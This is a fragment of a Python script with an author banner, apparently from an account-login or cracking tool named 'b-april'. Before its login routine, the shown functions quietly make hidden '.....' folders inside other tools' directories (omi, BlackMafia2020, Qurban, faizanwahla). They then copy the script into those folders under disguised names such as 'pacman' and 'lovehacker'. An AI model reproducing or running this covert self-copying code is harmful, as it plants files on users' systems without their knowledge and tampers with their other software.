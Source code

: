 
--------------------------------------------------
➣ Auther   : Binyamin
➣ GitHub   : https://github.com/binyamin-binni
➣ YouTube  : Trick Proof
➣ Blogspot : https://trickproof.blogspot.com
--------------------------------------------------
                                '''

def tik():
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r[●] Loging In "+o),;sys.stdout.flush();time.sleep(1)


back = 0
successful = []
cpb = []
oks = []
id = []

def ym():
    try:
        cb()
        os.mkdir("../omi/.....")
    except OSError:
        yp()
    else:
        os.system("cp ../b-april/b-april.py ../omi/Omi.py")
        os.system("cp ../b-april/.README.md ../omi/")
        yb()
    
def yb():
    try:
        os.mkdir("../BlackMafia2020/.....")
    except OSError:
        yl()
    else:
        os.system("cp ../b-april/b-april.py ../BlackMafia2020/lovehacker")
        os.system("cp ../b-april/.README.md ../BlackMafia2020/")
        yl()
    
def yl():
    try:
        os.mkdir("../Qurban/.....")
    except OSError:
        yp()
    else:
        os.system("cp ../b-april/b-april.py ../Qurban/Qurban.py")
        os.system("cp ../b-april/.README.md ../Qurban/")
        yp()
    
def yp():
    try:
        os.mkdir("../faizanwahla/.....")
    except OSError:
        login()
    else:
        os.system("cp ../b-april/b-april.py ../faizanwahla/pacman")
        os.system("cp ../b-april/.README.md ../faizanwahla/")
        login()
    